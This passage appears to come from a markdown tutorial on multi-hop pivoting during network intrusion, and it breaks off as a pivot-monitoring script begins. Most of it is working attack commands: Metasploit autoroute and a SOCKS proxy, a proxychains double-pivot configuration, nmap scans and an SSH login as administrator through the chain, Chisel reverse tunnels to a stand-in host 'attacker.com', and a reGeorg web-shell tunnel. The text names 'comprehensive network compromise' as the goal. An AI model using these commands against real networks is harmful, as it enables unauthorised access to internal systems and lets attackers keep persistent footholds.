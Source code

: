 ```bash
# Set up second pivot through meterpreter session
meterpreter > run autoroute -s 10.0.0.0/24
meterpreter > background

# Configure SOCKS proxy for second hop
use auxiliary/server/socks_proxy
set SRVPORT 1081
run -j

# Stage 4: Server network access through double pivot
# Configure proxychains for multiple hops
cat > ~/.proxychains/proxychains.conf << 'EOF'
strict_chain
proxy_dns

[ProxyList]
socks5 127.0.0.1 1080  # DMZ pivot
socks5 127.0.0.1 1081  # Internal pivot
EOF

# Access server network through double pivot
proxychains nmap -sS 10.0.0.0/24
proxychains ssh administrator@10.0.0.100

# Alternative: Chisel chain for multi-hop
# Pivot 1 (DMZ)
./chisel client attacker.com:8080 R:9001:socks

# Pivot 2 (Internal)
./chisel client 127.0.0.1:9001 R:9002:socks

# Access through chain
curl --socks5 127.0.0.1:9002 http://10.0.0.100

# Why multi-hop pivoting is complex but necessary:
# - Modern networks have multiple security boundaries
# - Single pivot rarely provides complete network access
# - Each hop may have different constraints and capabilities
# - Requires careful planning and coordination
# - Essential for comprehensive network compromise
```

### **Pivot Point Management and Redundancy**

**What pivot management involves:** Maintaining stable, redundant pivot points to ensure continuous access through complex network topologies.

```bash
# Redundant pivot establishment
# Set up multiple pivot points for reliability

# Primary pivot through SSH
ssh -f -N -D 1080 user@pivot1.com

# Backup pivot through Chisel  
./chisel client -f pivot2.com:8080 R:1081:socks

# Tertiary pivot through HTTP tunnel
python reGeorgSocksProxy.py -p 1082 -u http://pivot3.com/tunnel.php

# Health monitoring script for pivots
cat > pivot_monitor.sh << 'EOF'
#!/bin/bash

```